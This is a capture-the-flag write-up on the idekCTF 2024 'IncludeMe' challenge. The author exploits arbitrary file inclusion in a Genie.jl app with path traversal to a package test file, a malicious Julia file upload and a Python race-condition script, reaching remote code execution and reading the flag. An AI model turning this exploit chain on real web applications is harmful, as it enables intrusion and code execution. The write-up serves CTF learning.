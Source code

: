 ```yaml
---
id: 476adce3-c249-4a2d-ad88-ea823a5c99a1
title: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
created_time: 2024-08-19T00:24:00.000Z
last_edited_time: 2024-09-28T00:27:00.000Z
cover_image: ./imgs/images_CYPDSAFZ
icon_emoji: 🏎️
categories: []
verification:
  state: unverified
  verified_by: null
  date: null
page: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/images_CYPDSAFZ

---
```


In idekCTF 2024, I played with the **P1G SEKAI** team and secured 1st place out of 1,068 teams! I solved a challenge named "Included me" and got the first blood on that challenge.

# Challenge Description

another minimalist, frontend-less, challenge because i'm bad at writing server-side challenges

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/709a0b78-7ae2-4171-930b-e98c753c8621/includeme.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466R3XOEI65%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T095015Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDEaCXVzLXdlc3QtMiJGMEQCIAf8bWjyIS9bN6vdZvAuwF6iYOVrVrAGhCW7tc25tfqTAiACdJ2yhw7VV3c%2FTddS%2Fnxz6dbs4tWqs3Jo3XyZRi02MyqIBAjq%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAAaDDYzNzQyMzE4MzgwNSIMQ9PncArTza1rXB8NKtwDn8EID3Fldhpc%2BrzF6WRx%2BL9cvoj041%2Bn%2B152srdSpe9qpqi%2Bdld7wviLao6plrPO2MkwVdCOQgZGj07aAc1HgYVE0mjVPat9jBw5vVb2n0TV6pojkx55jH7QT0mbmWMUrBBREsIvQ5wEN44Ngv6wc7oZ1a6VwqXaGFwG%2BuSZ%2BZ8qllWwQtQO4kiDE7ohwRWXOr5xDP31bjs0WqGtaG52vfOUWOZCU3iyvqFqyrRln8HU63g447qN%2FgvJKSRUtmYlANA6pCrk4W9IlYl06t8%2Bo6bVU9CSTF%2BHfJ9IuBOA8FHvVErq4c3X245VyF%2B10PFPnyZFRlLah7hGeY2N4OGRTGTo%2FuGc6S3qcC4rLrd9mb%2FHywWDBDJ5a%2F4CozYWziALrUt4R8oZ1%2F3C0MaNMVrwElqrddFIPZ2yF61BY6MNW2y505Gs45Hw5dggXQrHIS1s00m7DwGqOolmbFm9znTSi6i2EM50dfC1Vl6W88K31v3HBVEVqZ9bQDQe0EZKbYt7oO9VOYSDtKQGAtLWZ4GWuo1MOlxGy6y62AJiPHVdHlAjsGHmt8CjgdpM0yxiqmmqi%2BpAZifs3G%2BjEfwOguhG0vTHa0Y6LQ6Ul8sFqww5z7%2BaxGwg6uWu%2BJ2zdxww1%2FHAwQY6pgHoRp1QNjehUXBZQxR86SH%2FtMgFI%2BzuXdu7xbICDyu5J%2F8LPeI5Yvpm%2Bh4JFnZutLXvLtf6YDBeMrqkNCnbKF6BcPMJiWpgkWF07tZsIy5yTUydbttrwihs1Z99aNPJ78vVqFglbAmVIZSNedNsfXU5RJjK1RsSyNj1DUHPDTvex%2FBMeBzECZ49SvS%2Fc5tccZHJ%2Fq1Fs6ZCSo6KJnnNHhLff3SCQF12\&X-Amz-Signature=793fec4db5793670ccbf9546709c52c5e281a939ab2c5af04cee590342af3e2b\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# How to Solve

The goal of this challenge was to achieve Remote Code Execution (RCE) and capture the flag. The program was vulnerable to arbitrary file inclusion here:

```julia
using Genie, Genie.Requests, Pkg

Pkg.activate(".")

index() = include(params(:page, "example.jl"))

route("/", index)

up(1337, "0.0.0.0", async = false)
```

We could include arbitrary files into the application, altering its flow. I discovered that we could include a test case from this Genie.jl repository:

> [![image](./imgs/b322ed80-bc5a-11e9-807a-9b53749c40ef_ftYlQyUC) **Genie.jl/test/fileuploads/test.jl at 509886d61a75d74bcbd45db1f77230abd4cd11a8 · GenieFramework/Genie.jl**](https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14)\
> 🧞The highly productive Julia web framework. Contribute to GenieFramework/Genie.jl development by creating an account on GitHub.\
> <https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14>

This test case essentially exposes a file upload vulnerability, allowing us to upload arbitrary files into Genie. However, after including that file, the program’s flow would change, preventing us from doing it a second time… or would it? The solution is yes, we can include it again if we’re fast enough to include `app.jl` right after uploading the file. This requires a race condition. Here's my solution script:

```python
import httpx
import asyncio

URL = "http://localhost:1337"
# URL = "https://includeme-295e03fffda9795f.instancer.idek.team/"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url, timeout=100)
    def page(self, page):
        return self.c.get("/", params={"page": page})
    def upload(self, fileupload):
        return self.c.post("/", files={"fileupload": ("x.jl", fileupload)})
class API(BaseAPI):
    ...

async def main():
    api = API()
    ress = []
    res1 = api.page("../home/ctf/.julia/packages/Genie/yQwwj/test/fileuploads/test.jl")
    ress.append(res1)
    for i in range(10):
        res2 = api.upload("""
read(`cat flag.txt`, String)
""")
        for j in range(10):
            res3 = api.page("app.jl")
            ress.append(res3)
        ress.extend([res1, res2])
    ress = await asyncio.gather(*ress)
    for res in ress:
        print(res.text)


if __name__ == "__main__":
    asyncio.run(main())

```

Next, visit <http://localhost:1337/?page=x.jl> to retrieve the flag.

![](./imgs/image_2FRbeU5K.png)
